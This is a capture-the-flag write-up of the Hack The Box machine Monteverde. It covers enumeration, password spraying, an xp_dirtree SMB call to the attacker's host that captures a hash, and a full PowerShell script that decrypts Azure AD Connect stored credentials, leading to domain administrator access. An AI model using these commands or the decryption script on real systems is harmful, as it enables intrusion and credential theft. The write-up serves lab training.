



# Enumeration
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-18 17:08 EST
Stats: 0:04:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.12% done; ETC: 17:12 (0:00:02 remaining)
Nmap scan report for 10.10.10.172
Host is up (0.017s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-18 22:18:09Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/18%Time=5E2381D3%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-18T22:20:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 303.00 seconds
```

**Enum4Linux:** </br>
I first used this tool, and got a list of users from the rpcclient what gave me the idea that it allows an anonymous login. </br>

**SMB:** <br>
Failed to connect with smbclient / smbmap </br>
Commands: </br>
```smbmap -H 10.10.10.172``` -> Access Denied. </br>
```smbclient -N -L //10.10.10.172``` </br>


## Initial Foothold

**RPC:** </br>
```rpcclient -U "" -N 10.10.10.172``` </br>
**querydispinfo** -> Found nothing interesting. </br>
**enumdomusesrs** -> Got the list of users. </br>
 </br>
Copied the list of users to a new file, used awk to cut the file:  ```cat users | awk -F\[ '{print $2}' | awk -F\] '{print $1}'``` </br>
I decided to do password spraying with crackmapexec to check if any user has used his username as his password: </br>
```bash
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

I found ```SABatchJobs``` credentials. </br>
I was able to browse some interesting shares with this user, with this command: </br>
```smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs``` </br>
I saw I had access to read usesrs$, SYSVOL, NETLOGON, IPC$ and azure_uploads shares. </br>
I used smbclient, and found something interesting in ```users$``` share: </br>
 </br>
Under the user ```mhope```, there is a file called ```azure.xml```, I grabbed it with: ```get azure.xml``` </br>
 </br>
It contains a password: ```<S N="Password">4n0therD4y@n0th3r$</S>``` </br>
Since it was under mhope's share, I assumed that it is his password, but I tried this password for all of the users just in case: </br>
```crackmapexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$'``` </br>
I also checked if evil-winrm worked for mhope's user: </br>
```crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'``` </br>
I got a ```Pwn3d!``` , so it did work over WinRM. </br>
 </br>
# Privilege Escalation
I first checked mhope's privileges and groups with the command: ```WHOAMI /ALL``` </br>
I could see that I was inside Azure Admins group, which means this is an Azure Active Directory box. </br>
I enumerated the machine and also ran an enumeration script (winPEAS), but couldn't find anything useful. </br> </br>
Knowing that user is in the Azure Admins group, means that he probably could run commands on the ```sqlcmd``` service, I used [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) tool. </br>
and tried this command: ```Invoke-SQLAUdit -Verbose``` and I could see that the machine was vulnerable to ```XP_DIRTREE``` - which means that I could try to include a file from my server and I could make the target machine do a requeset back to my server over SMB, so I could potentially steal the hash of the user that is trying to login to my SMB share. </br> </br>
**Attacker Machine:** </br>
```bash
smbserver.py kali .
responder -I tun0
```

**Target Machine (Victim):** </br>
```bash
sqlcmd -Q "xp_dirtree '\\10.10.14.32\kali'"
```

And I got a hash! </br>
 </br>
I tried to crack it with hashcat, but sadly it didn't seem to work. </br>
Then I found this blog: https://blog.xpnsec.com/azuread-connect-for-redteam/ </br>
It explains how to abuse Azure AD connect, The idea is that there is a user that is setup to handle replication of Active Directory to Azure, I could decrypt the configuration file and get the username and password for the account that handles replication. </br> </br>
I grabbed the code from the blog, and unfourtanetly it didn't work and even crashed my WinRM shell. </br>
I tried to check each command seperately, to see exactly where the problem is,
and I could see that the first line drops an error, I tried to use another connection string to see if that would work: </br>
```Server=LocalHost;Database=ADSync;Trusted_Connection=True;”``` </br>
And I then continued to check the rest of the code, seems like I didn't have a problem with anything else there, so I tried executing it as a .ps1 file again, and it worked! </br> </br>
**The modified code:** </br>
```bash
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

The output I got: </br>
 </br> </br>
Seems like I got credentials, I checked this user with crackmapexec: </br>
```crackmapexec smb 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'``` </br>
I got 'Pwn3d' which means that I could access this user with PsExec: ```psexec.py administrator@10.10.10.172``` </br>
Entered the password, and it worked. </br>



